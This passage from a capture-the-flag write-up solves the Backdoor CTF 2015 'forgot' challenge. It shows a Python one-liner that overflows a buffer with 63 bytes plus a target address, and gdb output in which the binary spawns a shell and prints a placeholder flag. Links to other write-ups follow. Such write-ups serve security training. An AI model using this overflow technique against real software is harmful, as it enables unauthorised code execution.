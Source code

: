 We provide the address and feed the input inside `gdb` to `forgot`:

```bash
$ python -c 'print "A"*63+"\xcc\x86\x04\x08"' > in 
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/backdoor-forgot/public/FORGOT/forgot < in
What is your name?
> 
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> [New process 2519]
process 2519 is executing new program: /bin/dash
[New process 2520]
process 2520 is executing new program: /bin/cat
FLAG{this_is_usually_secret}
[Inferior 3 (process 2520) exited normally]
```

We got the flag!

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-forgot-writeup/>
* <https://ctf-team.vulnhub.com/backdoor-ctf-2015-forgot/>
* <https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2015/BACKDOORCTF/pwnable/forgot>
* <https://gist.github.com/Bono-iPad/e908ddc67b3994069950>
* <https://github.com/TUCTF/write-ups-2015/tree/master/Backdoorctf15/forgot_200>
* <http://chinmaydd.github.io/2015/06/05/Backdoor-ctf/>
* [Indonesian](https://docs.google.com/document/d/1wUxXhTVrmbYXv7eza85T6DgHP5i7h7ItuD_JTDjekJk/edit)
